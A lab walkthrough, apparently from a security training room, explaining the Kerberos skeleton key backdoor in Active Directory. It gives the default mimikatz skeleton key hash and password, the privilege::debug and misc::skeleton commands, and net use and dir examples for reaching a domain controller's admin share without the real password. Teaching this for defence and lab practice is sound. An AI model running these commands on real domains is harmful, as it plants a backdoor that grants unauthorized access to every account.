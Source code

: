 The Kerberos
 backdoor works by implanting a skeleton key that abuses the way that 
the AS-REQ validates encrypted timestamps. A skeleton key only works 
using Kerberos RC4 encryption.

The default hash for a mimikatz skeleton key is  *60BA4FCADC466C7A033C178194C03DF6* which makes the password -"*mimikatz*"

This
 will only be an overview section and will not require you to do 
anything on the machine however I encourage you to continue yourself and
 add other machines and test using skeleton keys with mimikatz.

# Skeleton Key Overview -

The
 skeleton key works by abusing the AS-REQ encrypted timestamps as I said
 above, the timestamp is encrypted with the users NT hash. The domain 
controller then tries to decrypt this timestamp with the users NT hash, 
once a skeleton key is implanted the domain controller tries to decrypt 
the timestamp using both the user NT hash and the skeleton key NT hash allowing you access to the domain forest.

![https://i.imgur.com/yNI0zEb.png](https://i.imgur.com/yNI0zEb.png)

# Preparing Mimikatz -

1.) `cd Downloads && mimikatz.exe` - Navigate to the directory mimikatz is in and run mimikatz

2.) `privilege::debug` - This should be a standard for running mimikatz as mimikatz needs local administrator access

![https://i.imgur.com/ZPOMDMo.png](https://i.imgur.com/ZPOMDMo.png)

# Installing the Skeleton Key w/ mimikatz -

1.) `misc::skeleton` - Yes! that's it but don't underestimate this small command it is very powerful

![https://i.imgur.com/wI802gw.png](https://i.imgur.com/wI802gw.png)

# Accessing the forest -

The default credentials will be: "*mimikatz*"

example: `net use c:\\DOMAIN-CONTROLLER\admin$ /user:Administrator mimikatz` - The share will now be accessible without the need for the Administrators password

example: `dir \\Desktop-1\c$ /user:Machine1 mimikatz` - access the directory of Desktop-1 without ever knowing what users have access to Desktop-1

The
 skeleton key will not persist by itself because it runs in the memory, 
it can be scripted or persisted using other tools and techniques however
 that is out of scope for this room.
